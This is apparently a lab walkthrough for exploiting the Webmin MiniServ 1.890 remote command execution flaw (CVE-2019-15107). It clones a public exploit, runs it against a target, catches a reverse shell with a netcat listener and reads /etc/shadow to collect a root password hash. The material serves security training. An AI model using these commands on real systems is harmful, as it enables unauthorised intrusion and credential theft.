 ```
Centos
OpenSSH 8.0
Apache httpd 2.4.37
MiniServ 1.890 (https://github.com/MuirlandOracle/CVE-2019-15107)
```

## Exploitation

In the previous task we found a vulnerable service[1][2] running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability. There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in this instance, an exploit is provided here.

Start by cloning the repository. This can be done with the following command:
```
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```
This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:
```
cd CVE-2019-15107 && pip3 install -r requirements.txt
```
If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:
```
sudo apt install python3-pip
```
The script should already be executable, but if not, add the executable bit (chmod +x ./CVE-2019-15107.py).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).

Once you're satisfied that the script will do what it says it will, run the exploit against the target!
```
./CVE-2019-15107.py TARGET_IP

shell

nc -nvlp 443
```


[1] https://sensorstechforum.com/cve-2019-15107-webmin/
[2] https://www.webmin.com/exploit.html

## Let’s do a little enumeration, first check for hashes:
```
cat /etc/shadow

[root@prod-serv ]# cat /etc/shadow
cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$>HIDDEN>6g0PxK9VqSdy47/qKXad1::0:99999:7:::
```
